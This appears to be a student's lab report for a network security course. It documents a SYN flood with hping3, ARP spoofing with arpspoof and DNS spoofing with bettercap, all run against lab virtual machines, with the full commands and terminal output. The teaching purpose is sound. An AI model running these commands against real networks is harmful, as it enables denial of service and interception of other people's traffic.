





# CENG489 PA2 Report

This report is intended to explain the process and results of the attacks made in different settings for the sake of the assignment. For the ease of readability and grading, the report is divided into sections, each for one single attack.

## Attack 1: SYN Flood

First attack is SYN flooding, where the `attacker` sends `SYN` packets continuously to the `server`.

This attack scenario uses a basic HTTP server and client, in `server` and `client` sides. Also the `attacker` uses the `hping3` tool for SYN flooding.

Server:

```bash
python3 scripts/01-syn-flood/server.py
```

Client:

```bash
python3 scripts/01-syn-flood/client.py
```

Attacker:

```bash
sudo hping3 -c 150000 -d 120 -S -w 64 -p 4444 --flood --rand-source 192.168.56.101
```

Also, `attacker` and `server` dumps the TCP packets using `tcpdump`:

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-attacker.pcap -s 96
```

```bash
sudo tcpdump -i enp0s8 -w 01-syn-flood-server.pcap -s 96
```

The terminal output of `server` can be seen below:

```bash
serving at port 4444
192.168.56.102 - - [21/Jun/2022 14:05:46] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:47] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:49] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:50] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:51] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:52] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:53] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:54] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:55] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:56] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:57] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:58] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:05:59] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:00] "GET / HTTP/1.1" 200 - # Attack starts here
192.168.56.102 - - [21/Jun/2022 14:06:02] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:04] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:05] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:12] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:33] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:36] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:39] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:06:41] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:01] "GET / HTTP/1.1" 200 -
192.168.56.102 - - [21/Jun/2022 14:07:02] "GET / HTTP/1.1" 200 -
```

Also, the SYN packets and their sent responses can be seen in the below screenshots (Figure-1 and Figure-2) of the network dumps of the attacker side and the server side.





## Attack 2: ARP Spoofing

The second attack is ARP spoofing, which broadcasts the MAC address of the `attacker` as the `server`'s to the local network as the router, to spoof the victim's (`client`'s) ARP table to perform a MITM attack.

Before the attack:

```bash
vagrant@client:~$ arp -a
? (192.168.56.100) at 08:00:27:03:7e:13 [ether] on enp0s8
? (192.168.56.101) at 08:00:27:11:bd:83 [ether] on enp0s8
_gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
```

This attack scenario uses the `arpspoof` tool to perform ARP spoofing on the `client`:

```bash
sudo arpspoof -i enp0s8 -t 192.168.56.102 192.168.56.101
```

After the attack:

```bash
vagrant@client:~$ arp -a
? (192.168.56.100) at 08:00:27:03:7e:13 [ether] on enp0s8
? (192.168.56.101) at 08:00:27:03:7e:13 [ether] on enp0s8
_gateway (10.0.2.2) at 52:54:00:12:35:02 [ether] on enp0s3
? (10.0.2.3) at 52:54:00:12:35:03 [ether] on enp0s3
```

It can be seen that the MAC address of `192.168.56.101` (`server`) was changed to `08:00:27:03:7e:13`, which is actually the `attacker`'s MAC, in the `client`'s ARP table.

The poisoning can be also seen in the network dump of the attacker (Figure-3).



It can be seen that before the attack, client sends the HTTP request packets to the server with the MAC address `08:00:27:11:bd:83` in Figure-4.



Also, after the spoofing, client starts sending the same HTTP packets to the server but with MAC address `08:00:27:03:7e:13`, can be seen in Figure-5.



## Attack 3: DNS Spoofing

The third and the last attack is DNS spoofing, which is performed by using `bettercap` tool on the `attacker`'s side and `CoreDNS` on the `server` side.

Use the `server` as a DNS server for the `client`, using **CoreDNS**:

```bash
vagrant@server:~$ cat > coredns.conf << EOF 
.:53 {
    forward . 1.1.1.2 1.0.0.2
}
EOF

vagrant@server:~$ sudo systemctl stop systemd-resolved
vagrant@server:~$ sudo ./scripts/03-sslstrip/coredns -conf coredns.conf
```

Also configure the `client` to use the `server` as DNS server:

```bash
vagrant@client:~$ sudo cat > /etc/resolv.conf << EOF
nameserver 192.168.56.101
EOF
```

Before the attack:

```bash
vagrant@client:~$ dig google.com

; <<>> DiG 9.16.1-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 46397
;; flags: qr rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;google.com.			IN	A

;; ANSWER SECTION:
google.com.		286	IN	A	142.250.187.174

;; Query time: 92 msec
;; SERVER: 192.168.56.101#53(192.168.56.101)
;; WHEN: Tue Jun 21 22:36:12 UTC 2022
;; MSG SIZE  rcvd: 65
```

Start the attack using `bettercap` tool:

```bash
vagrant@attacker:~$ sudo ./scripts/03-sslstrip/bettercap --iface enp0s8
192.168.56.0/24 > 192.168.56.100  » set arp.spoof.fullduplex true
192.168.56.0/24 > 192.168.56.100  » set arp.spoof.internal true
192.168.56.0/24 > 192.168.56.100  » set arp.spoof.targets 192.168.56.102
192.168.56.0/24 > 192.168.56.100  » arp.spoof on
[22:39:03] [sys.log] [inf] arp.spoof enabling forwarding
192.168.56.0/24 > 192.168.56.100  » [22:39:03] [sys.log] [war] arp.spoof arp spoofer started targeting 254 possible network neighbours of 1 targets.
192.168.56.0/24 > 192.168.56.100  » [22:39:03] [sys.log] [war] arp.spoof full duplex spoofing enabled, if the router has ARP spoofing mechanisms, the attack will fail.
192.168.56.0/24 > 192.168.56.100  » set dns.spoof.domains google.com
192.168.56.0/24 > 192.168.56.100  » set dns.spoof.address 1.1.1.1
192.168.56.0/24 > 192.168.56.100  » dns.spoof on
[22:39:22] [sys.log] [inf] dns.spoof google.com -> 1.1.1.1
192.168.56.0/24 > 192.168.56.100  » [22:39:25] [sys.log] [inf] dns.spoof sending spoofed DNS reply for google.com (->1.1.1.1) to 192.168.56.102 : 08:00:27:54:cb:fa (PCS Computer Systems GmbH).
```

Then do the same DNS resolution to `google.com` on the client side to check if DNS spoofing was successful:

```bash
vagrant@client:~$ dig google.com

; <<>> DiG 9.16.1-Ubuntu <<>> google.com
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 1804
;; flags: qr; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 0

;; QUESTION SECTION:
;google.com.			IN	A

;; ANSWER SECTION:
google.com.		1024	IN	A	1.1.1.1

;; Query time: 12 msec
;; SERVER: 192.168.56.101#53(192.168.56.101)
;; WHEN: Tue Jun 21 22:39:25 UTC 2022
;; MSG SIZE  rcvd: 54
```

As seen in the response, the `A` record seems `1.1.1.1`, which is what we were specified in the `bettercap` tool's dns spoofing options.

